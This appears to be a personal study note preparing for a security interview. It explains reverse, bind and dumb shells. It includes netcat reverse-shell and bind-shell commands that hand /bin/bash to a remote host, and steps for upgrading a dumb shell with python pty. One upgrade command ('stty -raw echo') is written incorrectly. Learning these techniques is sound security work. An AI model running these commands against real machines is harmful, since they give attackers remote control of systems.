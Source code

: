 >[!important] Important TOPIC 4 INTERVIEW

>[!question] :What is Shell ?
Shell is a command-line interpreter that takes commands from Keyboard (i.e. aka provides an interface to the users to use OS)

<h2> Different Shell Types</h2>
 - Reverse Shell
 - Bind Shell 
 - Dumb Shell



<h2> Reverse Shell:</h2>
It's the most common shell  which provide access to a machine (i.e. When we say we pop a shell that means access to a machine).
- Reverse Shell means a `Victim Connects` To Us or a Target connects to us.
- Will Use Reverse Shell 95% of the time.

Reverse Shell   =       Attacker                                          Victim
                            nc -nvlp 4444                                   nc 192.168.142.128 4444 -e /bin/bash
Here the attacker will open a port and victim will establish a connection and will offer a bin bash to him.
>[!note] **Victim connects to Attacker**

![[Pasted image 20230825114415.png]]


# Upgrade a Dumb Reverse Shell into a Fully Functional Terminal
https://www.youtube.com/watch?v=vOEO_6xfsdo

DUMB Shell is a shell that can't perform many things like autocomplete, backspace, and arrow keys movement.
This dumb shell will stop working if you use Ctrl + C.

Hence you have to upgrade it.

Usually there's python installed on the box, which allows you to use 
`python3 -c "__import__('pty').spawn('/bin/bash')" or similar.`

Afterwards, use Ctrl + Z  followed by stty -raw echo, then fg on bash, or 
```
stty -raw echo;fg 
```

Finally, type 
```
reset
```
Input your TERM var (usually xterm-256color).

Then you should have an interactive shell that allows Ctrl + C and history to function properly



<h2> Bind Shell:</h2>
Bind Shell => Means we connect to the target.
- Will use Bind Shell mostly on an External Assessment.

Bind Shell        =    Attacker                                              Victim
                           nc 192.168.142.128 4444                  nc -nvlp 4444 -e /bin/bash
Here the victim will be listening and will be offering up /bin/bash to the attacker.
>[!note] :Attacker Connects to Victim.

![[Pasted image 20230825114451.png]]
